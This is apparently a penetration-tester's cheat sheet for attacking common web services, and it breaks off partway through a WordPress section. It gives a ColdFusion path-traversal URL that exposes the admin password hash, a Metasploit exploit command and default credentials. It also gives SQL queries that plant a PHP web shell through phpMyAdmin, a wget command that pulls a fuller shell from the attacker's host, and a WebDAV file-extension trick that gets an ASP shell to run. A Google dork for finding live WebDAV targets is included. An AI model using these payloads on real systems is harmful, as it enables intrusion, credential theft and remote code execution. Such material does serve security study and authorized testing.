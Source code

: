 # Common web-services

This is a list of some common web-services. The list is alphabetical.

## Cold Fusion

If you have found a cold fusion you are almost certainly struck gold.  
[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

### Determine version

example.com/CFIDE/adminapi/base.cfc?wsdl  
It will say something like:

```
<!--WSDL created by ColdFusion version 8,0,0,176276-->
```

### Version 8

#### FCKEDITOR

This works for version 8.0.1. So make sure to check the exact version.

```
use exploit/windows/http/coldfusion_fckeditor
```

#### LFI

This will output the hash of the password.

```
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

You can pass the hash.

[http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers](http://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers)

[http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/](http://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)

neo-security.xml and password.properties

## Drupal

## Elastix

Full of vulnerabilities. The old versions at least.

[http://example.com/vtigercrm/](http://example.com/vtigercrm/)  
default login is  
`admin:admin`

You might be able to upload shell in profile-photo.

## Joomla

## Phpmyadmin

Default credentials

```
root <blank>
pma <blank>
```

If you find a phpMyAdmin part of a site that does not have any authentication, or you have managed to bypass the authetication you can use it to upload a shell.

You go to:

```
http://192.168.1.101/phpmyadmin/
```

Then click on SQL.

```
Run SQL query/queries on server "localhost":
```

From here we can just run a sql-query that creates a php script that works as a shell

So we add the following query:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\shell.php"

# For linux
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```

The query is pretty self-explanatory. Now you just visit `192.168.1.101/shell.php?cmd=ipconfig` and you have a working web-shell.  
We can of course just write a superlong query with a better shell. But sometimes it is easier to just upload a simple web-shell, and from there download a better shell.

### Download a better shell

On linux-machines we can use wget to download a more powerful shell.

```
?cmd=wget%20192.168.1.102/shell.php
```

On windows-machines we can use tftp.

## Webdav

Okay so webdav is old as hell, and not used very often. It is pretty much like ftp. But you go through http to access it. So if you have webdav installed on a xamp-server you can access it like this:

```
cadaver 192.168.1.101/webdav
```

Then sign in with username and password.  
The default username and passwords on xamp are:

Username: **wampp**

Password: **xampp**

Then use **put** and **get** to upload and download. With this you can of course upload a shell that gives you better access.

If you are looking for live examples just google this:

```
inurl:webdav site:com
```

Test if it is possible to upload and execute files with webdav.

```
davtest -url http://192.168.1.101 -directory demo_dir -rand aaaa_upfileP0C
```

If you managed to gain access but is unable to execute code there is a workaround for that!  
So if webdav has prohibited the user to upload .asp code, and pl and whatever, we can do this:

upload a file called shell443.txt, which of course is you .asp shell. And then you rename it to **shell443.asp;.jpg**. Now you visit the page in the browser and the asp code will run and return your shell.

### References

[http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf](http://secureyes.net/nw/assets/Bypassing-IIS-6-Access-Restrictions.pdf)

## Webmin

Webmin is a webgui to interact with the machine.

The password to enter is the same as the passsword for the root user, and other users if they have that right. There are several vulnerabilites for it. It is run on port 10000.

## Wordpress

```
sudo wpscan -u http://cybear32c.lab
```

If you hit a 403. That is, the request if forbidden for some reason.  
Read more here: [https://en.wikipedia.org/wiki/HTTP\_403](https://en.wikipedia.org/wiki/HTTP_403)

It could mean that the server is suspicious because you don't have a proper user-agent in your request, in wpscan you can solve this by inserting --random-agent.  
You can of course also define a specific agent if you want that. But random-agent is pretty convenient.

```
sudo wpscan -u http://cybear32c.lab/ --random-agent
```

### Scan for users

You can use wpscan to enumerate users:

